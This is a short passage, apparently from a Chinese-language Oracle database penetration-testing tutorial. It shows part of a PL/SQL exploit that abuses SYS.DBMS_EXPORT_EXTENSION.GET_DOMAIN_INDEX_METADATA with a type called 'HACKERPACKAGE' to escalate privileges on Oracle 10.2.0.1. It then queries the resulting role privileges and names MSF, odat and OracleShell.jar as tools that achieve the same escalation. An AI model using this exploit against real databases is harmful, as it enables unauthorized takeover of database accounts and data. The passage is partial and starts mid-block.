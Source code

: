 ```sql
NEWBLOCK PLS_INTEGER;
GMFLAGS NUMBER;
v_Return VARCHAR2(200);
BEGIN
INDEX_NAME := 'A1';
INDEX_SCHEMA := 'test';
TYPE_NAME := 'HACKERPACKAGE';
TYPE_SCHEMA := 'SCOTT';
VERSION := '10.2.0.1.0';
GMFLAGS := 1;
v_Return := SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_METADATA(INDEX_NAME =>
INDEX_NAME,
INDEX_SCHEMA=> INDEX_SCHEMA,
TYPE_NAME => TYPE_NAME,
TYPE_SCHEMA => TYPE_SCHEMA,
VERSION => VERSION,
NEWBLOCK => NEWBLOCK,
GMFLAGS => GMFLAGS);
END;
/

select * from user_role_privs;    --最后，查询用户权限配置
```

**利用工具提权**

**利用MSF、[odat](https://github.com/quentinhardy/odat)、[OracleShell.jar](https://github.com/jas502n/oracleShell)**等工具也可以实现提权

